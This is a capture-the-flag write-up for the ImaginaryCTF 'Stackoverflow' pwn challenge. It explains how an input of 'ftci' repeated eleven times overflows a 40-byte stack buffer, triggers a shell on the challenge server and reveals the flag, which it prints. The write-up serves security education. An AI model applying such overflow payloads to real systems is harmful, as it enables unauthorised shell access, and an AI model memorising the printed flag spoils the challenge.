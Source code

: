 ![ImaginaryCTF](../../banner.png)

# Stackoverflow

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|50|Pwn|413|

### Description

```
Welcome to Stack Overflow! Get answers to all your programming questions right here!
```

### Attachments

* [stackoverflow](stackoverflow)
* nc chal.imaginaryctf.org 42001

We are given a NetCat-Connection and an executable. Let's first get a look at nc:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
green
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```
The programm asks for a color, answeres a short text and throws an error.
Let's get a look at the executable to find out what it does. Therefore we can use ghidra to analyze the file:

![ghidra.PNG](ghidra.PNG)

Ghidra shows us a `main` function. Here we see that the program compares `local_10` with `0x69637466` ("ictf") while our input gets written into `local_38`. If the comparison  returns true it will execute `/bin/sh`, so we have to trigger that.

`local_38` is 40 bytes big and is stored infront of the `local_10` on the stack. So we just put 11 * "ftci" (= 44 Bytes) and it will fill `local_38` until it overflows 1 "ftci" into local_10. It has to be reverted to "ftci" as it has to be stored in little endian.

Doing this we get the following output:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
ftciftciftciftciftciftciftciftciftciftciftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
```
As we know from the disassembly `/bin/bash` is executed and we can interact with the shell:

```
[...]
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
```
There is our flag:
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
